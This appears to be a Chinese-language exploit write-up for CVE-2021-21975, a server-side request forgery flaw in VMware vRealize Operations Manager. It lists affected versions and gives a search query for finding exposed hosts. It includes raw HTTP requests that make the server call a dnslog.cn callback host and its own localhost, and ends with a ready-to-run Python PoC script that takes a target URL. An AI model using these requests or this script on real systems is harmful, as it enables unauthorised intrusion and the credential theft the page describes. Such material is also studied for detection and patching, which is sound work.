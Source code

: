 # VMware vRealize Operations Manager SSRF漏洞 CVE-2021-21975

# VMware vRealize Operations Manager SSRF漏洞 CVE-2021-21975

## 漏洞描述

vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，以窃取管理凭据。

## 漏洞影响

```
VMware:vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0
VMware:cloud_foundation: 4.x 3.x
VMware:vRealize_suite_lifecycle_manager: 8.x
```

## 网络测绘

```
title="vRealize Operations Manager"
```

## 漏洞复现

访问登录页面如下

![image-20220209124025396](/images/202202091240466.png)

发送请求包如下

```plain
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["eheeyd.dnslog.cn"]
```

![image-20220209124041348](/images/202202091240414.png)

```plain
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["127.0.0.1:443/ui"]
```

![image-20220209124100027](/images/202202091241144.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, v):
    vuln_url = target_url + "/casa/nodes/thumbprints"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json;charset=UTF-8"
    }
    data = '["{}"]'.format(Dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
        if response.status_code == 200 :
            print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```

![image-20220209124122332](/images/202202091241405.png)


